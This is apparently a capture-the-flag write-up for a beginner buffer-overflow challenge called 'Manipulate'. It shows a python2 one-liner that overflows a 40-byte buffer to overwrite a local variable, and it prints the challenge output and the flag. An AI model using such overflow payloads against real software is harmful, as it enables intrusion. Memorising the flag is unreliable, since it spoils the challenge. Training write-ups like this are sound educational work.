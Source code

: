 ## Name - Manipulate

## Description
Can you manipulate the program to give you the flag?

create a `flag.txt` to test locally.

## Solution

Source code was provided - buffer = 40, after this is `number` which is set to `0xdeadbeef`. Target - set number to `0xa0b1c2d3`. 

input =  40*'A' + '\xd3\xc2\xb1\xa0\x00\x00' (LSB 64 bit  - this information can be found if we ran the attached Makefile in local and ran `file` command on the generated binary).  Sample solve

```
python2 -c "print('A'*40+'\xd3\xc2\xb1\xa0')" | ./challenge
Welcome to the first PWN challenge!
If you can change the number to 0xa0b1c2d3, you win!
What's your name?
casual{l0cal_variable_man1pulati0n}
```

